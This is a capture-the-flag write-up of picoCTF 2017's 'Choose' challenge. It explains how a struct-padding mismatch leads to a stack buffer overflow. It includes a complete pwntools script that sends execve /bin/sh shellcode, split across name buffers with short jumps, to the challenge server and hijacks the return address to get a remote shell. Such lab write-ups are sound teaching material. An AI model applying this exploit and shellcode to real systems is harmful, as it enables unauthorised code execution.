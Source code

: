 # Choose (final challenge)
#### Writeup by hgarrereyn
* **Binary Exploitation**
* *150 points*
* Description: Unhappy that you can't choose which enemies to fight? [Choose](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/00b7c0f4229784ec935e2defcf470bc25ef3fa9b/2017/picoCTF_2017/problems/binary/Choose/choose) your own adventure! [Source](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/00b7c0f4229784ec935e2defcf470bc25ef3fa9b/2017/picoCTF_2017/problems/binary/Choose/choose.c). Connect on shell2017.picoctf.com:47601. ASLR is not enabled.

# Overview

This program allowed the user to specify `11` enemy types to fight and assign each a `12 char` name. Then the user could fight each of these enemies and win various things.

After that, the user must fight a dragon that was hardcoded to be completely unbeatable.

However, in order to get the flag, you had to exploit the program to be able to get a shell remotely.

# Solution

The vulnerability was a wrong assumption that a group of structs were the same size in memory. Specifically, the programmer assumed that these structs were the same size (`0x14 bytes`):

```c
#define ENEMNAMELEN 12

typedef struct _orc{
    char type;
    short damage;
    int health;
    char name[ENEMNAMELEN];
} orc;

typedef struct _unicorn{
    char type;
    int health;
    short damage;
    char name[ENEMNAMELEN];
} unicorn;
```

Although both structs contain the same fields with the same types, they are specified in a different order. Therefore, due to struct packing the `unicorn` struct actually occupies `0x18 bytes`. The memory structures are as follows:

```
orc (0x14 bytes):

[ type ][ xxxx ][ damage       ]
[ health                       ]
[ name                         ]
[ name                         ]
[ name                         ]

unicorn (0x18 bytes):

[ type ][ xxxxxxxxxxxxxxxxxxxx ]
[ health                       ]
[ damage       ][ xxxxxxxxxxxx ]
[ name                         ]
[ name                         ]
[ name                         ]

```

Notice how the `unicorn` struct is unable to pack the `char` and `short` fields into one 4-byte space because the `int health` must be aligned.

Then later, the following array was created to store user-controlled enemy struct data:

```c
#define NUMMONSTERS 11
#define ENEMSIZE sizeof(orc)

char enemies[ENEMSIZE * NUMMONSTERS];
```

This error allowed an attacker to craft an input that caused a buffer overflow onto a saved return address. For example, if the attacker specified all unicorns, the storage functions would overflow the `enemies` array.

The return address could be overwritten with the address of shellcode placed on the stack.

ASLR was disabled so it was possible to hard-code the stack address that held our shellcode. However, in order to find it, you could simply use existing functionality in the program. See the following lines:

```c
void printEnemy(char * enemy){
    ...
    if(ctfer.wizardSight){
        printf("Your sight shows the enemy at %p\n", enemy);
    }
}
```

So if we had `wizardSight`, the program would print out stack addresses. How do we get that?

```c
void processWinnings(char type){
    switch(type){
        ...
        case 'T':
        case 't':
            printf("You found %s\n", winnings[5]);
            ctfer.wizardSight = 1;
            break;
    	...
    }
}
```

Ok, so in order to get a stack address, we simply have to fight a troll and beat it. Then we can calculate the offset to the first name buffer where we will store our shellcode.

However, we quickly run into a problem: the name buffer only stores `12 bytes` and there is no way we can fit exexcve shellcode into that small a buffer. However, we have `11` name buffers to use.

My solution was to use something I call "leapfrog shellcode" for lack of a better name. Basically, I split the shellcode into `<10 byte` sections (making sure to keep instructions intact). Then I appended short jump instructions that would jump to the next name buffer where execution could continue.

In memory that looked like this:

```
enemy 1:  [junk]
          [junk]
		  [junk]
          [shellcode]      <-- start address
          [shellcode]
		  [shellcode jmp] -.
enemy 2:  [junk]           |
          [junk]           | skip the struct junk
          [junk]           |
          [shellcode] <----'
          [shellcode]
          [shellcode jmp]

etc...
```

# Script

[**exploitChoose.py**](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/00b7c0f4229784ec935e2defcf470bc25ef3fa9b/2017/picoCTF_2017/problems/binary/Choose/exploitChoose.py)

```python
# By Harrison Green <hgarrereyn>

from pwn import *

# Found on shell-storm.org:
# http://shell-storm.org/shellcode/files/shellcode-811.php

# Shellcode (/bin/sh on 32 bit)
# 08048060 <_start>:
 # 8048060: 31 c0                 xor    %eax,%eax
 # 8048062: 50                    push   %eax
 # 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 # 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 # 804806d: 89 e3                 mov    %esp,%ebx
 # 804806f: 89 c1                 mov    %eax,%ecx
 # 8048071: 89 c2                 mov    %eax,%edx
 # 8048073: b0 0b                 mov    $0xb,%al
 # 8048075: cd 80                 int    $0x80
 # 8048077: 31 c0                 xor    %eax,%eax
 # 8048079: 40                    inc    %eax
 # 804807a: cd 80                 int    $0x80

# Relative jump:
#  EB CB - where CB is a signed integer to be added to eip


# Modified leapfrog shellocode with added short jumps:

### Name 1
# 31 c0
# 50
# 68 2f 2f 73 68
name1 = '\x31\xc0\x50\x68\x2f\x2f\x73\x68' + '\xeb\x0e'

### Name 2
# 68 2f 62 69 6e
# 89 e3
# 89 c1
name2 = '\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1' + '\xeb\x0d'

### Name 3
# 89 c2
# b0 0b
# cd 80
# 31 c0
name3 = '\x89\xc2\xb0\x0b\xcd\x80\x31\xc0' + '\xeb\x0e'

### Name 4
# 40
# cd 80
name4 = '\x40\xcd\x80'


# Heap layout:
# <name 1 : 12 bytes>
# <junk : 12 bytes>
# <name 2 : 12 bytes> ...


sock = remote('shell2017.picoctf.com', 47601)

# Select 11 unicorns
sock.send(('u\n' * 11))

# Add shellcode
sock.send(name1 + '\n')
sock.send(name2 + '\n')
sock.send(name3 + '\n')
sock.send(name4 + '\n')

# Fill the rest of the names
for i in range(6):
	sock.send('name\n')

# jump to shellcode by overwriting the return address with 0xffffdb9a
sock.send('aa' + '\x9a\xdb\xff\xff' + '\n')

# flee unicorns
sock.send(('f\n' * 11))

# flee dragon
sock.send(('f\n' * 6))

# Game exits but actually jumps to shellcode

# We've got shell
sock.interactive()
```
